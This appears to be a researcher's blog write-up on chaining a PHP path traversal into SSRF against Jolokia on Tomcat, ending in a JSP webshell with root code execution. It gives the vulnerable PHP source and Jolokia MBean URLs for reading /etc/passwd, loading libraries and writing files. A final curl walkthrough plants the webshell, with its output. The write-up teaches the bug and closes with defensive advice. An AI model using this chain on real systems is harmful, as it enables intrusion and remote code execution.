


Okey, here's a funny one I've been given to exploit recently. 

The cause of this bug is simple: `The lack of input sanitization`

# Overview of our target

- A linux host (pick your favourite)
- A tomcat server on 127.0.0.1:8080
    - Basic-Auth in place
    - Jolokia installed / deployed
- A php server on 0.0.0.0:8443


# Php source code analysis, the root-cause

Source code wasn't provided, but luckily, directory listing was enabled, and a `.old` file was gently waiting for me. \
Lucky day, isn't it?

> The code source has been heavily modified to make it readable for the reader, the original version... Was something... Very impressive!

Take some time to read the code, see what you can find! \
Spoiler alert: my notes on this are below the code snippet. 

```php
<?php

// Variables
$arg1=$_GET['arg1']; // note 1
$arg2=$_GET['arg2']; // note 1
$method=$_SERVER['REQUEST_METHOD'];

// Sanitize params
if (!is_numeric($arg1)) {
    http_response_code(400);
    die("Param arg1 must be numeric");
}

function jolokiaPlz($arg1, $arg2) {
	global $jolokia_user, $jolokia_pw;

    // Example: setLoggerLevel/global/INFO
    $levels = array("INFO", "DEBUG");
    $level = $levels[$arg1];
	$url = "http://localhost:8080/jolokia/exec";
    $url .= "/java.util.logging:type=Logging/setLoggerLevel/$arg2/$level?some=garbage_here"; // note 2 and 5
	
	$curl = curl_init();

	curl_setopt($curl, CURLOPT_HTTPAUTH, CURLAUTH_BASIC);
	curl_setopt($curl, CURLOPT_USERPWD, "$jolokia_user:$jolokia_pw");
	curl_setopt($curl, CURLOPT_URL, $url);
	curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);

	$result = curl_exec($curl);
	curl_close($curl);
	return $result;
}

switch ($method) {
    case "PUT":
	    $ret=json_decode(jolokiaPlz($arg1, $arg2), true);
	    http_response_code($ret['status']);
        header("Content-Type: application/json");
	    if ($ret['status'] == 200) {
	    	print ("{\"Success\": \"$arg1/$arg2\",\"Code\":\"".$ret['value']."\"}"); // note 3
	    } else {
	    	print(json_encode($ret));
	    }
        break;
    default:
	    http_response_code(404);
	    die("Bad methode: $method"); // note 4
}
?>
```

Many things to note: 

1. The parameters arg1 and arg2 are not tested with isset, resulting in the message `Warning: Undefined array key "arg1" in /var/www/html/api.php on line 4` hinting to add parameters to use the api correctly (parameter mining not required) and leaking an absolute path. 
1. The `is_numeric` check also returns true for `-1` or ` 1`, this would provoke errors within jolokia. The parameter should have been normalized with `int()` and then stringified to ensure its type, or validates with a strict numeric regex. 
1. The `Success` json is poorly created and would be invalid if any argument contains a double-quote. A php object should have been created and then dumped as a json string to ensure its validity. 
1. An XSS `could` have been present on the last line as method is reflected without any sanitization, but HTTP methods that contain special character are most-often blocked by servers. 
1. A `path traversal` is possible on arg2, as no sanitization is in place. Even better, no question mark `?` nor pound `#` is present, so we can `../` our way to the web-server's root!


So far, we can:

- List the files on 0.0.0.0:8443 with the directory listing
- Use the path traversal to achieve an SSRF on http://127.0.0.1:8080/
    - With the Basic-Auth added for us
    - With an arbitrary path and parameters
    - Without garbage at the end by appending an url-encoded `#`

Clean normal request:


SSRFed request: **boom**


Okey, that's a good start. The php server was (locally, test-purpose) a builtin one : `php -S 0.0.0.0:8443`

Now, let's setup a jolokia to see what this bad-boiiii can do! And by setup I mean... Docker! *stays lazy af*

`sudo docker run --rm -it --network=host bodsch/docker-jolokia`

Digging a bit shows that this docker exposes a JMX service on 0.0.0.0:22222 and a tomcat on 0.0.0.0:8080. \

Let's invertigate port 22222: 

With jconsole, we can easily access and interact with JMX features, such as mbeans properties and methods. 

It's possible to login both locally and remotely, here we'll use the remote interface as our tomcat lives within a docker container. 


The Jconsole helps for resources monitoring, and also offers to to read and write attributes, as well as method calling with user-defined parameters. 


 
Pretty neat, pretty dangerous, but whatever, port 22222 isn't exposed...

# What is Jolokia anyway?

[Jolokia's doc on JMX](https://jolokia.org/reference/html/introduction.html) states : 

> JMX (Java Management Extensions) is the standard management solution in the Java world. Since JDK 1.5 it is available in every Java Virtual Machine and especially Java EE application servers use JMX for their management business.


[Jolokia's doc / official website](https://jolokia.org/)

> Jolokia is a JMX-HTTP bridge giving an alternative to JSR-160 connectors. It is an agent based approach with support for many platforms. In addition to basic JMX operations it enhances JMX remoting with unique features like bulk requests and fine grained security policies.

Say no more, `Jolokia is a JMX-HTTP` bridge, so we can now use jolokia in HTTP to reach JMX features. Yeet!

But, JMX can only.. Monitor? It shouldn't be that bad, right?


# Interactions, Enumeration, and Blindness my old friend

One thing to note is that in the php script, when the call to jolokia succeeds, we are often blind because in `print ("{\"Success\": \"$arg1/$arg2\",\"Code\":\"".$ret['value']."\"}");`, when `$ret['value']` is a dict or array, the string concatenation will only output a generic `Object` or `Array` keyword instead of its content. This makes us blind, and this s*cks. 

This is why it was important to have a local replica to enumerate stuff and figure out what can be done. Moreover, most of jolokia's return values are json object, so we're often blind. 

Some information can still be acquired by generating stacktraces and find out if the instance (MBean) is found or not, whether the method called exists or not, etc. 

Now, let's spend a few minutes making [Bernstein](https://twitter.com/bernsteining) happy by reading some doc!

https://jolokia.org/reference/html/protocol.html#jolokia-operations

Common url patterns for jolokia are the following (POST ommited, as we can only reach it with GET):

- http://localhost:8080/jolokia?p=/read/jboss.jmx:alias=jmx%2Frmi%2FRMIAdaptor/State
- http://localhost:8080/jolokia/exec/java.lang:type=Memory/gc
- http://localhost:8080/jolokia/list?maxObjects=100
- http://localhost:8080/jolokia/read/java.lang:type=*/HeapMemoryUsage
- http://localhost:8080/jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
- http://localhost:8080/jolokia/search/*:j2eeType=J2EEServer,*
- http://localhost:8080/jolokia/write/java.lang:type=Memory/Verbose/true

To sum'up the pattern, it's something like: `/jolokia/action/package:MBeanSelector/method/param1/param2`, and `/` characters must be encoded with `!/`. Cool!


# Useful MBeans found

Locally, MBeans can be listed with `/jolokia/list` or with `jconsole`. 


- Get help on the `DiagnosticCommand`
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*`
    
    - Notice that here, the `value` key is a string and not an array/dict, so we wouldn't be blind on the real target with the SSRF either!

- Get JVM Informations with vmSystemProperties
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties`
    
    - Cool, now we have tomcat's absolute location

- File write with JavaFlightRecorder
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo`
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrDump/name=<ID_FROM_jfrStart>`
    - For this one, I wrote files, but did not take the time to make sure that we control part of its content, exercise left to the reader! :]

- File read with compilerDirectivesAdd
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd`
    
    - Could not load, here's its content, thanks for the fish! *facepalm*

- Arbitrary .so loading with jvmtiAgentLoad
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd`
    
    - For real? Load a .so with a simple GET request? Wow..
    - Fun fact, there is no need to have a function called within the library. It is possible for both windows and linux to implement a constructor for the library and get code execution on dlopen this way!

- File write in a "log" file with an arbitrary location and name
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned`
    - Here, one must find a way to poison the logs, then disable it to close the file and stop appending garbage to it
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable`


# Potential ways to compromise

1. Find another MBean that offers a full SSRF and scan internal network for vulnerable services?
    - Maybe, I only managed to find one SSRF in jolokia's proxy system, but it's reachable only by POST requests, so it's a dead-end for us
1. Use the file write to add a crontask? 
    - No, only privileged users can edit crontabs
1. Add an ssh authorized_key to our user and ssh into the box? 
    - No, ssh isn't exposed
1. Write an arbitrary library (.so) on the disk and load it? 
    - No, our file-write primitive has too much junk and would break the ELF parser while loading the lib. This _could_ work with a log-flush with the right timing, but this really seems complexe, and likely to fail. 
    - On windows, an UNC path like `\\my.domain.com\my.dll` might have been possible, but I'm no aware of such behavior on linux. I tried using `http` and `ftp` schemes, but what what expected is a path and not a full uri. *sigh*
1. Write a php file on the php web-root and query it?
    - No, this web-root isn't writable by the tomcat user
1. Write a jsp file on tomcat's ROOT (or any other mapped application within tomcat, such as `manager`, `docs`, etc) directory and query it with our initial SSRF? 
    - Bingo! First try! Or so.. :)


# Walkthrough & Final exploit

```bash
# Define log file
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/opt!/apache-tomcat-9.0.16!/webapps!/ROOT!/jsp.jsp%23'

#HTTP/1.1 200 OK                                                                                                                                                                               
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:10 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
#string(221) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["output=\/opt\/apache-tomcat-9.0.16\/webapps\/ROOT\/jsp.jsp"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478270,"status":200}"

# Wait for log file rotation and write our payload in the logs/jsp
sleep 1
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/win%253C%2525%253Dnew%2520java.util.Scanner%2528Runtime.getRuntime%2528%2529.exec%2528%2522id%2522%2529.getInputStream%2528%2529%2529.useDelimiter%2528%2522pouetpouet%2522%2529.next%2528%2529%2525%253Ewin%23'

#HTTP/1.1 200 OK
#Host: 0.0.0.0:8443
#Date: Sun, 28 Feb 2021 02:11:11 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
#string(3076) "{"stacktrace":"java.lang.IllegalArgumentException: No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists\n\tat org.jolokia.util.RequestType.getTypeByName(RequestType.java:69)\n\tat org.jolokia.request.JmxRequestFactory.createGetRequest(JmxRequestFactory.java:94)\n\tat org.jolokia.http.HttpRequestHandler.handleGetRequest(HttpRequestHandler.java:79)\n\tat org.jolokia.http.AgentServlet$4.handleRequest(AgentServlet.java:470)\n\tat org.jolokia.http.AgentServlet.handleSecurely(AgentServlet.java:350)\n\tat org.jolokia.http.AgentServlet.handle(AgentServlet.java:321)\n\tat org.jolokia.http.AgentServlet.doGet(AgentServlet.java:277)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:634)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:741)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:200)\n\tat org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)\n\tat org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:490)\n\tat org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:139)\n\tat org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)\n\tat org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:668)\n\tat org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)\n\tat org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)\n\tat org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:408)\n\tat org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)\n\tat org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:834)\n\tat org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1415)\n\tat org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)\n\tat org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)\n\tat java.base\/java.lang.Thread.run(Thread.java:834)\n","error_type":"java.lang.IllegalArgumentException","error":"java.lang.IllegalArgumentException : No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists","status":400}"

sleep 1
# End log file, stop adding garbage
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable%23'

#HTTP/1.1 200 OK   
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:12 GMT
#Connection: close          
#X-Powered-By: PHP/8.1.0-dev           
#Content-type: text/html; charset=UTF-8
#                                                                                                                                                                                               
#string(170) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["disable"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478272,"status":200}"


# Query our jsp and execute code
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jsp.jsp%23' | grep uid | head -n 1

#[20.624s][info][exceptions       ] Exception <a 'java/lang/IllegalArgumentException'{0x00000000c5bc01b8}: 
# No type with name 'winuid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```


# Final thoughts

1. Sanitize user inputs. Always. Please...
2. Avoid mixing-up web-servers and the filesystem (shame on php, jsp, asp, cgi, ...)
3. Only expose what is really useful to the application


# Useful ressources

- https://docs.oracle.com/cd/E17802_01/j2se/j2se/1.5.0/jcp/beta1/apidiffs/java/lang/management/ManagementFactory.html
- https://github.com/mpgn/Spring-Boot-Actuator-Exploit
- https://jolokia.org/reference/html/protocol.html#jolokia-operations
- https://www.programmersought.com/article/47451068394/
- https://www.veracode.com/blog/research/exploiting-spring-boot-actuators


# Special tribute

On the 26th of February 2021, my cat passed away at 16 years old due to kidney failure. \
This one is for her. \
I spent so many nights reading and hacking with her by my side, exposing ideas and waiting on her feedbacks. 

She used to catch bugs, and was actually pretty good at it. 

Dear, I'll miss you. A lot. 


